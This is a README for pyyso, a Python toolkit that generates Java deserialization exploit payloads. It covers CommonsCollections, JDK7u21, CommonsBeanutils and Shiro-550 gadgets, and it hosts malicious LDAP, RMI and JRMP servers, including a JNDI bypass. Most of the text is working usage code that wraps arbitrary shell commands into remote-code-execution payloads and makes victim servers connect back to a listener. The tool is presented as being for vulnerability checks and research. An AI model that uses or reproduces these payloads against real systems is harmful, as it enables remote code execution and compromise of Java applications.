 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a LDAP/RMI/JRMP server to host java serialized pocs
- Communicating and collaborating with other Python packages 
- Won't be exploited back in RMI like java client

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils1 1.8.3 no cc
- CommonsBeanutils1 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- LDAP server hosting java serialized pocs
- LDAP server hosting java remote reference factory
- RMI server
- high JDK version beanfactory bypass
- JRMP server
- JRMPClient Gadget

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```sh
pip install pyyso
```

## How to use
### basic usage

First import pyyso

```python
import pyyso
```
To generate a java serialized zed poc use:
```python
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonsColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonsColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
pyyso.jrmpclient("127.0.0.1",80) #return java serialzed data of jrmpclient in bytes
pyyso.cb1v183("touch /tmp/1") #return java serialzed data of CommonsBeanutils1 1.8.3 no cc in bytes
```
### shiro 

To encode a shiro poc use:

```python
serobj=pyyso.cb1v183("touch /tmp/1")
pyyso.shiroEncode(serobj=serobj,key=b'kPH+bIxk5D2deZiIxcaaaA==')
```
To generate a java class embed with command use:
```python
pyyso.evil("touch /tmp/1") #return java class embed with command in bytes
```
### LDAP

To start a LDAP server hosting java serialized pocs:

```python
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389` 
You can change the hosted java serialized data by:

```python
server.serobj=pyyso.cc1("rm /tmp/2")
```
To start a LDAP server hosting java remote reference factory:
```python
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
This will start a LDAP server listening `0.0.0.0:1389 ` 
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

### JRMP

To start a JRMPListener

```python
serobj=pyyso.cc1("open /tmp",jrmp=True) #note that there is 'jrmp=True'!
server=pyyso.JRMPListener(serobj=,ip="0.0.0.0", port=5151)
server.run()
```

This will start a JRMPListener listening `0.0.0.0:5151`

By deserializing a jrmpclient Gadget in victim's server, the victim's server will connect back to JRMPListener.

the  jrmpclient Gadget should be made by:

```python
serobj=pyyso.jrmpclient(hostname="127.0.0.1", port=5151)
```

which the hostname  is corresponding to where JRMPListener is hosting on

### RMI and bypass

To get a bypass poc, use:

```python
serobj=pyyso.beanfactory("open /tmp", rmi=True)
```

To start a RMI server and host bypass poc, use:

```python
serobj=pyyso.beanfactory("open /",rmi=True) ##note that there is 'rmi=True'!
server=pyyso.RMIServer(serobj=serobj,ip="0.0.0.0", port=1099, refip="0.0.0.0", refport=42155)
server.run()
```

a registry will listen `0.0.0.0:1099`  and a poc provider server will listen `0.0.0.0:42155`

## Support Options

For some reasons, part Gadgets support  JRMP or RMI now，which can be enabled by `rmi=True` or `jrmp=True`

| Gadgets     | Basic | jrmp option | rmi option |
| ----------- | ----- | ----------- | ---------- |
| CC1-CC7     | ✅     | ✅           | ❌          |
| CB1v192     | ✅     | ✅           | ❌          |
| JDK7u21     | ✅     | ✅           | ❌          |
| beanfactory | ❌     | ❌           | ✅          |
| others      | ✅     | ❌           | ❌          |

## License

[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec

